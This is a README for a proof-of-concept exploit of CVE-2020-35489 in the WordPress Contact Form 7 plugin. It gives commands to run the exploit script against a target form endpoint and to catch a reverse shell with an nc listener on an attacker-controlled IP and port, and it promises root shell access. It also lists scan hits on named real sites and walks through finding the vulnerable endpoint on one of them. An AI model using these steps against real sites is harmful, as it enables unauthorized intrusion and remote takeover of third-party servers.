


# CVE-2020-35489 POC


## About

* https://nvd.nist.gov/vuln/detail/CVE-2020-35489
* https://blog.wpsec.com/contact-form-7-vulnerability/
* https://www.secpod.com/blog/wordpress-plugin-contact-form-7-critical-file-upload-vulnerability-cve-2020-35489/
* https://help.stoik.io/de/cve-2020-35489

## Usage

```bash
git clone https://github.com/aifuzzer/poc-CVE-2020-35489.git
cd poc-CVE-2020-35489
bash poc.sh url loc_ip loc_port
```

`loc_ip` is an attacker machine ip which gets the reverse shell
`loc_ip` is an attacker machine port which gets the reverse shell
`url` is a vulnerable site url (not a domain)

## What is vulnerable url?

[nuclei](https://github.com/projectdiscovery/nuclei) scanner detects this cve as a critical in the following form (all example sites in this doc are rendered immune):

```text
[CVE-2020-35489] [http] [critical] https://ccp.org.ru:443/wp-content/plugins/contact-form-7/readme.txt [5.1.7]
[CVE-2020-35489] [http] [critical] https://ksmu.org.ru:443/wp-content/plugins/contact-form-7/readme.txt [5.1.7]
[CVE-2020-35489] [http] [critical] https://majestic.org.ru:443/wp-content/plugins/contact-form-7/readme.txt [4.6]
[CVE-2020-35489] [http] [critical] https://www.ccp.org.ru:443/wp-content/plugins/contact-form-7/readme.txt [5.1.7]
[CVE-2020-35489] [http] [critical] https://www.ksmu.org.ru:443/wp-content/plugins/contact-form-7/readme.txt [5.1.7]
```

The scanner does not provide the vulnerable url, however. For the exploit to work, you should do some research and find the form on the detected site which uses the plugin.
For example, let's look on http://itws.ru/?page_id=29



When we submit the form, we can notice the url involved:



This is what the poc script takes as a parameter: `http://itws.ru/index.php?rest_route=/contact-form-7/v1/contact-forms/28/feedback`

For that domain:

```bash
bash poc.sh http://itws.ru/index.php?rest_route=/contact-form-7/v1/contact-forms/28/feedback your_machine_ip your_ip_port
```

## Reverse shell

If the exploit is successful, you get shell to the specified ip and port. 

### Example

You bought a cloud instance for exploit whose ip is 145.21.32.5. You ssh-ed into the instance and run `nc -l 11244`. You ssh-ed from the second terminal and run the `poc.sh`:

```bash
bash poc.sh https://example.com/wp-url 145.21.32.5 11244
```

If the exploit is successful, you get root shell access to the target machine with `nc` in the first ssh terminal.

If you test the poc being **behind router**, don't forget to **forward port** on which reverse shell is listening. 